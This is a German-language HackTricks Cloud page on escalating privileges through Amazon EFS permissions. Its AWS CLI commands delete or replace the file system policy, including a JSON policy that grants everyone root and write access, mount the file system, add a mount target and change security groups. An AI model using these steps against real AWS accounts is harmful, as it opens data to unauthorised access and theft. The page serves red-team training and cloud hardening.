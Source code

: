 # AWS - EFS Privesc

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## EFS

Mehr **Infos über EFS** in:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Denke daran, dass du, um ein EFS zu mounten, in einem Subnetz sein musst, in dem das EFS exponiert ist und Zugang dazu haben musst (Sicherheitsgruppen). Wenn dies der Fall ist, kannst du es standardmäßig immer mounten. Wenn es jedoch durch IAM-Richtlinien geschützt ist, benötigst du die hier genannten zusätzlichen Berechtigungen, um darauf zuzugreifen.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Mit einer dieser Berechtigungen kann ein Angreifer **die Dateisystemrichtlinie ändern**, um dir **Zugang** zu gewähren oder sie einfach **zu löschen**, sodass der **Standardzugang** gewährt wird.

Um die Richtlinie zu löschen:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Um es zu ändern:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Mit dieser Berechtigung kann ein Angreifer **das EFS einbinden**. Wenn die Schreibberechtigung standardmäßig nicht allen gewährt wird, die das EFS einbinden können, hat er nur **Lesezugriff**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Die zusätzlichen Berechtigungen `elasticfilesystem:ClientRootAccess` und `elasticfilesystem:ClientWrite` können verwendet werden, um **in** das Dateisystem zu **schreiben**, nachdem es gemountet wurde, und um auf dieses Dateisystem **als root** zu **zugreifen**.

**Potenzielle Auswirkungen:** Indirekte Privilegieneskalation durch das Auffinden sensibler Informationen im Dateisystem.

### `elasticfilesystem:CreateMountTarget`

Wenn ein Angreifer sich in einem **Subnetz** befindet, in dem **kein Mount-Ziel** des EFS existiert, könnte er einfach **eins in seinem Subnetz erstellen** mit diesem Privileg:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Potenzielle Auswirkungen:** Indirekte Privilegieneskalation durch Auffinden sensibler Informationen im Dateisystem.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

In einem Szenario, in dem ein Angreifer feststellt, dass das EFS einen Mount-Ziel in seinem Subnetz hat, aber **keine Sicherheitsgruppe den Verkehr erlaubt**, könnte er einfach **das ändern, indem er die ausgewählten Sicherheitsgruppen modifiziert**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Potenzielle Auswirkungen:** Indirekte Privilegieneskalation durch Auffinden sensibler Informationen im Dateisystem.

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
